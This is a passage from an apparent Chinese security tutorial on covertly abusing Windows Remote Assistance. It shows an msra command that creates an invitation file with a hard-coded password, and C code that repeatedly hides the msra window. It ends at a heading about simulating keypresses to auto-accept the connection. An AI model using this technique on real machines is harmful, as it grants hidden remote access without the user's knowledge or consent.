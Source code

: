 ### 3、创建远程协助文件，后台等待用户连接

```
msra /saveasfile c:\test\1.msrcIncident 123456789012
```

保存文件路径为`c:\test\1.msrcIncident`，连接密码为`123456789012`



## 0x04 编写c程序隐藏界面，发送键盘消息，模拟用户点击确认
---

### 1、隐藏msra.exe的界面

获得窗口句柄，将窗口属性设置为隐藏

需要注意不同语言的系统中msra.exe的窗口标题不同，例如中文系统的窗口标题为`Windows 远程协助`，英文系统的窗口标题为`Windows Remote Assistance`

可以先对当前系统语言作判断，接着寻找对应的窗口标题

为了使界面完全隐藏，需要加入循环判断，只要找到msra.exe的窗口立即对其隐藏

可供参考的代码如下：

```
#include <windows.h>
int main()
{
	char *Title = NULL;
	LANGID lid = GetSystemDefaultLangID();
	printf("[*]LanguageID:0x%04x\n",lid);
	switch (lid)
	{
		case 0X0804:
			printf("[*]Language:Chinese\n",lid);
			Title = "Windows 远程协助";
			break;
		case 0x0409:
			printf("[*]Language:Englisth\n",lid);
			Title = "Windows Remote Assistance";
			break;
	}
	for(int i=0;i<1;i)
	{
		HWND hwnd = FindWindow(NULL, Title);
		ShowWindow(hwnd, SW_HIDE); 
		Sleep(100);
	}
}
```

编译生成`msra-hide.exe`

### 2、模拟输入键盘消息，左箭头(<-)和回车确认键
